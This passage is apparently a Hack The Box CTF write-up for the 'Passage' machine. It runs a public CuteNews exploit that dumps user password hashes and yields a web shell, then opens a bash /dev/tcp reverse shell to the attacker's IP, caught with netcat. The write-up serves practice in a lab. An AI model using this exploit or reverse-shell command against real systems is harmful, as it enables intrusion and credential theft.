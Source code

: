 # Easy way into the box

It's possible to gain access without knowing the CMS version. When I googled

> how to check cutenews version -"passage"

this [exploit](https://www.exploit-db.com/exploits/48800) appeared at the top. Using it was simple enough

```text
root@kali:~/CTF/HTB/Passage# ./48800.py



           _____     __      _  __                     ___   ___  ___
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/
                                ___  _________
                               / _ \/ ___/ __/
                              / , _/ /__/ _/
                             /_/|_|\___/___/




[->] Usage python3 expoit.py

Enter the URL> http://10.10.10.206
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: YKNt2AGMRP and password: YKNt2AGMRP

=======================================================
Sending Payload
=======================================================
signature_key: cffdf83ecc79bd67c35f3e98a0052238-YKNt2AGMRP
signature_dsi: 85b878e1f88e630f2f360a978774b127
logged in user: YKNt2AGMRP
============================
Dropping to a SHELL
============================

command > whoami
www-data
```

We got a pseudo shell, now let's try to get a reverse shell.

```text
command > nohup bash -c 'bash -i >& /dev/tcp/10.10.14.78/443 0>&1' &

root@kali:~/CTF/HTB/Passage# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.78] from (UNKNOWN) [10.10.10.206] 57544
bash: cannot set terminal process group (1610): Inappropriate ioctl for device
bash: no job control in this shell
www-data@passage:/var/www/html/CuteNews/uploads$
```

Yup that's all. Nothing else required. The exploit even dumped the users SHA-256 hashes so we don't need to enumerate too hard.